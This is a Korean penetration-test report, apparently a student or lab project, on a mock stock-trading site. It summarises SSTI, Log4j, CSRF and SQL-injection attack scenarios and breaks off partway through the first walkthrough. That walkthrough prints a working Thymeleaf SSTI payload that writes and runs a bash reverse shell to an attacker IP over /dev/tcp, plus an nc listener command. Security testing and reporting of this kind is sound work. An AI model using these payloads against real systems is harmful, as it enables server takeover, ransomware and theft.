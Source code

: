
# 결과 요약
## 총평
- 루키증권의 침투 테스트를 수행한 결과, 전반적으로 루키증권의 보안 인프라는 기본적인 보안 요구사항을 충족하고 있습니다. 그러나 개인정보가 포함된 마이페이지 및 공지사항, 커뮤니티 페이지에서 서버 측 템플릿 삽입(SSTI), 크로스 사이트 요청 위조(CSRF), 그리고 SQL 인젝션과 같은 심각한 취약점이 발견되었습니다. 이 보고서는 해당 취약점들로 인해 발생할 수 있는 피해와 그 영향을 상세히 설명합니다. 본 보고서의 발견 사항을 토대로 루키증권의 보안 수준을 강화한다면 안정적인 서비스를 제공할 수 있습니다.

## 모의해킹 시나리오

| NO | 시나리오 제목 | 시나리오 세부 사항 | 수행 방법 |
|---|-------------------|-------|-------|
| 1 | 시스템 침투 랜섬웨어 감염 시나리오 | SSTI 취약점을 이용하여 서버 내부로 리버스쉘 접속하는 코드를 주입해서 대상 서버의 정보를 얻은 후 랜섬웨어 코드를 이용해 데이터를 암호화 시도 | １. SSTI 취약점을 이용해 리버스 쉘 접속 코드를 주입 <br> 2. 리버스 커넥션 후 랜섬웨어 코드를 업로드 <br> 3. 랜섬웨어 코드를 통해 db백업하여 저장 후 대상 서버 db 삭제, 서버 중요 정보 암호화 |
| 2 | 코인채굴 시나리오 | Log4j 취약점을 이용하여 Shell 권한을 얻은 ec2에서 엑세스키 탈취한 후 aws cli를 통해 키와 서버를 생성한 후 생성한 서버의 자원을 통해 비트코인 채굴 시도 | 1. log4j 취약점을 이용하여 shell 권한을 얻은 ec2에서 엑세스키 탈취 후 aws cli를 통해 키, ec2 생성 <br> 2. 생성한 ec2에 접속해 비트코인 채굴 돌리는 코드 실행해서 생성된 ec2 자원을 통해 비트코인 채굴 시도 |
| 3 | 금전 취득 시나리오 | CSRF 취약점을 이용해 관리자의 jwt token 탈취 후 관리자만 접근 가능한 공지사항 페이지에 보유 주식 판매 후 강제로 송금이 되게 하는 코드를 기입한 글을 업로드하여 글을 확인한 사용자의 금전 취득 시도 | 1. Q&A 페이지에 JWT Token을 탈취할 수 있는 코드 작성 후 글 게시 <br> 2. 관리자의 JWT Token을 탈취하여 공지사항 페이지에 보유 주식 판매 및 강제 송금이 되는 코드 작성 후 글 게시해 사용자 금전 취득 시도 |
| 4 | 악성 앱 배포를 통한 모바일 탈취 시나리오 | 검색 기능에서 Blind SQL Injection을 통해 관리자의 로그인 정보를 탈취한 후 암호화된 password를 복호화해서 admin 계정 탈취 후 공지사항 페이지에 악성 앱을 배포 해 모바일 장악 시도 | 1. SQL Injection으로 관리자의 로그인 정보 탈취 <br> 2. 레인보우 테이블을 이용한 패스워드 크래킹 <br> 3. 악성 앱 다운로드 유도하는 공지사항 작성 <br> 4. 사용자의 중요 정보 장악 시도 |

# 수행 결과

## S-1 시스템 침투 랜섬웨어 감염 시나리오

### 특정 페이지에서 SSTI 취약점 유무를 확인

- 검색창에 T(java.lang.Runtime).getRuntime().exec(”id")를 입력해서 Thymleaf 구 버전에서 발생하는 SSTI 취약점이 존재함을 확인한다.

> <img width="257" alt="image" src="https://github.com/hanmin0512/rookiestock_hacking/assets/37041208/7625f76d-142d-44e0-8248-2350447edada">

### SSTI 취약점을 이용해 리버스 쉘 접속 코드를 주입

- 취약점이 존재하는 부분, 즉 커뮤니티 검색창에 리버스 쉘을 작성하는 코드를 작성하여 서버에서 실행시킨다.

```
T(java.lang.Runtime).getRuntime().exec(new String[] {"sh", "-c","echo '#!/bin/bash\nattacker_ip=51.21.82.80\nattacker_port=8888\n/bin/bash -c /bin/bash -i >& /dev/tcp/$attacker_ip/$attacker_port 0>&1 ' > ReverseShell.sh && chmod a+x ReverseShell.sh && ./ReverseShell.sh"})
```

### 리버스 쉘을 통해 원격으로 접속 후 대상 서버의 정보 수집
- 공격자는 Nc –lnvp 8888 명령어로 netcat을 이용해 8888 포트를 리스닝한다.
> <img width="454" alt="image" src="https://github.com/hanmin0512/rookiestock_hacking/assets/37041208/f7515dd2-ff39-40fd-bdf4-4ca4f219f2be">

- 리버스 쉘을 통해 원격으로 대상 서버에 접속하여 정보를 수집한다. 그 후, 서버 정보와 DB연결 정보를 확인한다.

> <img width="454" alt="image" src="https://github.com/hanmin0512/rookiestock_hacking/assets/37041208/4630c94f-3092-4d68-af42-9bae47f969ea">

> <img width="456" alt="image" src="https://github.com/hanmin0512/rookiestock_hacking/assets/37041208/e37bb46b-62be-4440-a5fa-81ee8bc01f13">
